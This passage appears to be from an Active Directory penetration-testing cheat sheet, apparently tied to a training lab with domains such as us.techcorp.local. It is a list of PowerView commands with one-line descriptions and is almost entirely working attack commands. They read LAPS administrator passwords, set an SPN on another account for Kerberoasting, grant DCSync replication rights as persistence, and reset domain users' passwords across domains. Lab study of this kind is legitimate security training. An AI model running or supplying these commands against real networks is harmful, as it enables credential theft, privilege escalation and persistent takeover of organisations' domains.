 `Get-DomainGPO`
- Find the GPOs applied at an OU
`Get-DomainGPO -Identity '{FCE16496-C744-4E46-AC89-2D01D76EAD68}'`
- Enumerate ACLs of a Domain Group (what permissions members of this domain group HAVE OVER OTHER SECURITY PRINCIPALS)
`Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs -Verbose`
- Check for modify rights/permissions that a Domain User HAS OVER OTHER SECURITY PRINCIPALS
`Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "studentuserx"}`
- Check for modify rights/permissions that a Domain Group HAS OVER OTHER SECURITY PRINCIPALS
`Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}`
- Check for modify rights/permissions that a Domain User HAS OVER OTHER SECURITY PRINCIPALS in another Domain
`Find-InterestingDomainAcl -ResolveGUIDs -Domain dbvendor.local`
- Check for ACEs on a domain group (what other security principals have permissions to do on that domain group)
`Get-DomainObjectAcl -Identity machineadmins -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match 'managers'}`
- Force an SPN to another Domain User
`Set-DomainObject -Identity supportXuser -Set @{serviceprincipalname='us/myspnX'} -Verbose`
- Identify OUs where LAPS is in use and user(s) who have permission to read passwords.
`Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}`
- Read LAPS password
`Get-DomainObject -Identity us-mailmgmt | select -ExpandProperty ms-mcs-admpwd`
- Check if a Domain User has Replication permissions
`Get-DomainObjectAcl -SearchBase "dc=us,dc=techcorp,dc=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuserx"}`
- Add Replication permissions to a Domain User as a persistence method
`Add-DomainObjectAcl -TargetIdentity "dc=us,dc=techcorp,dc=local" -PrincipalIdentity studentuserx -Rights DCSync -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose`
- Reset password of a Domain User
`Set-DomainUserPassword -Identity dbxsvc -AccountPassword (ConvertTo-SecureString 'Password@123' -AsPlainText -Force) –Verbose`
- Reset password of a Domain User in another Domain
`Set-DomainUserPassword -Identity dbxsvc -AccountPassword (ConvertTo-SecureString 'Password@123' -AsPlainText -Force) -Domain dbvendor.local –Verbose`
- Find Foreign Group Members in our current domain (members of Domain Groups in our current domain that are not Domain Accounts in our current domain)
`Find-ForeignGroup –Verbose`
- Resolve Object SID of an FSP in another Domain
`Get-DomainUser | ?{$_.ObjectSid -eq 'S-1-5-21-569087967-1859921580-1949641513-4101'}